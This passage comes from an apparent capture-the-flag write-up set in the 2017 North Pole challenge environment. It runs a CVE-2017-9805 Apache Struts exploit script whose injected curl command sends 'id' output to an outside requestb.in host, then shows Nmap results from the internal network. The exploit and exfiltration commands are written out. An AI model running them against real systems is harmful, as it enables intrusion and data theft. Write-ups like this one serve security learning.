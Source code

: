 Because the system is cleaned up pretty frequently and the newly created files are deleted I chose to exfiltrate the data. For that I used http://requestb.in - an excellent pinger that saves full request details in a easy to use form. Here we will use Struts exploitation script to run curl to send output of ```id``` command to the external site:

```
$ python cve-2017-9805.py -u "https://dev.northpolechristmastown.com" 
-c "curl https://requestb.in/qfa38mqf?\`id\`"
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
``` 

The output produced is ```uid 1003(alabaster_snowball)```.

Command injection works. We can now use this method to:

- Map the systems in the intranet:

```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-18 05:38 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00017s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00024s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
143/tcp  open  imap
2525/tcp open  ms-v-worlds
3000/tcp open  ppp

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00019s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
389/tcp  open  ldap
8080/tcp open  http-proxy

Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
Host is up (0.00059s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
```